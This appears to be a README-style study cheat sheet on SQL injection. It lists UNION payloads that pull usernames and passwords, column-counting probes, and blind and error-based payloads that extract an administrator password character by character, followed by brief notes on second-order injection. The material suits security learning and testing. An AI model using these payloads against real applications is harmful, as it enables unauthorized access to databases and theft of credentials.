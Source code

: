 # Web Security resources 


#### Retrieving data from other database tables

```sql
>  ' UNION SELECT username, password FROM users-- 
```
For a UNION query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

##### Determining the number of columns required in an SQL injection UNION attack

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 1-- ... ERROR!

' UNION SELECT NULL-- ERROR!
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL-- ERROR!
```

#### Examining the database

```sql
> SELECT * FROM information_schema.tables 
```

#### Blind SQL injection vulnerabilities

##### Exploiting blind SQL injection by triggering conditional responses

```sql
> xyz' UNION SELECT 'a' WHERE 1=1--
> xyz' UNION SELECT 'a' WHERE 1=2-- 

> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 'm'--
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
...
> xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```
##### Inducing conditional responses by triggering SQL errors

```sql
> xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
> xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END-- 
> xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
```


#### How to detect SQL injection vulnerabilities

```sql
> '
> OR 1=1 | OR 1=2
```

#### SQL injection in different parts of the query

- In UPDATE statements, within the updated values or the WHERE clause.
- In INSERT statements, within the inserted values.
- In SELECT statements, within the table or column name.
- In SELECT statements, within the ORDER BY clause.

#### Second-order SQL injection

 First-order SQL injection arises where the application takes user input from an HTTP request and, in the course of processing that request, incorporates the input into an SQL query in an unsafe way.

In second-order SQL injection (also known as stored SQL injection), the application takes user input from an HTTP request and stores it for future use. 

#### Database-specific factors

- [Cheatsheet of different databases](https://portswigger.net/web-security/sql-injection/cheat-sheet)












